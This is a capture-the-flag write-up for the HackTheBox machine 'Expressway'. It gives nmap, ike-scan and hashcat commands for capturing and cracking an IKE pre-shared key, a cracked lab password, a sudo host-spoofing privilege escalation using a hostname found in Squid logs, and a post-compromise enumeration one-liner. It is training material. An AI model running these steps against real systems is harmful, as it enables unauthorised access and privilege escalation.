




# Expressway — HackTheBox

| Field      | Value              |
|------------|--------------------|
| Platform   | HackTheBox         |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | IKE, VPN, sudo, log analysis |

---

## 1. Reconnaissance

Started with a TCP scan — only port 22 (SSH) open. Dead end on TCP.

```bash
nmap -sV -p- --min-rate 5000 <IP>
```



Switched to UDP scan and found port **500/udp** running **isakmp** — the IKE protocol used for IPsec VPN negotiation.

```bash
nmap -sU -p 500 <IP>
```



---

## 2. Exploitation — IKE Hash Capture & Crack

With IKE running, used `ike-scan` in aggressive mode to trigger a handshake and capture the VPN PSK hash.

```bash
ike-scan --aggressive --id=0 <IP>
```



Cracked the hash with hashcat to recover the credentials for user `ike`:

```bash
hashcat -m 5300 hash.txt /usr/share/wordlists/rockyou.txt
```



**Credentials:** `ike` : `freakingrockstarontheroad`

SSH in as `ike`.

---

## 3. Privilege Escalation

### Step 1 — Custom sudo binary

Searched for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Found `/usr/local/bin/sudo` — not the standard location (`/usr/bin/sudo`). A custom-compiled binary. Tested for non-standard flags and confirmed it accepted `-h` (host override).

### Step 2 — Internal hostname via Squid logs

Grepped Squid proxy logs for internal hostnames:

```bash
grep "expressway.htb" /var/log/squid/access.log.1
```

Found internal traffic destined to `offramp.expressway.htb`.

### Step 3 — Exploit sudo Host_Alias bypass

The sudoers config restricted root access based on `Host_Alias`. Since the custom sudo binary accepts `-h` to spoof the hostname, this restriction is bypassable:

```bash
/usr/local/bin/sudo -h offramp.expressway.htb bash
```

Root shell obtained.

---

## 4. Key Takeaways

**Always check proxy logs for hidden hostnames**

```bash
grep -r "domain.htb" /var/log/squid /var/log/nginx /var/log/apache2 2>/dev/null
```

Internal proxy logs often leak subdomains and internal IPs not visible from outside.

**Binaries in `/usr/local/bin` may be modified**

If a system binary (sudo, tar, su) appears in `/usr/local/bin` instead of `/usr/bin`, treat it as modified. Test with `-h`, `--help`, `-V` for non-standard options.

**Connect the dots**

- Datum A: internal hostname `offramp` from logs
- Datum B: custom sudo accepts `-h` to set hostname
- Result: `sudo -h offramp.expressway.htb bash` → root

---

## 5. Post-Exploitation Recon Script

Useful one-liner for initial post-compromise enumeration:

```bash
echo "--- [1] SUBDOMAINS IN LOGS ---"; \
domain=$(hostname -d 2>/dev/null || echo "htb"); \
grep -rE "$domain" /var/log/squid /var/log/nginx /var/log/apache2 2>/dev/null | grep -v "127.0.0.1" | head -20; \
echo "--- [2] INTERNAL IPs ---"; \
grep -rEo "([0-9]{1,3}\.){3}[0-9]{1,3}" /var/log/squid /var/log/nginx 2>/dev/null | grep -vE "127.0.0.1|0.0.0.0" | sort -u | head -20; \
echo "--- [3] WRITABLE CONFIGS ---"; \
find /etc /usr/local/etc /var/www -maxdepth 4 -writable -type f 2>/dev/null
```
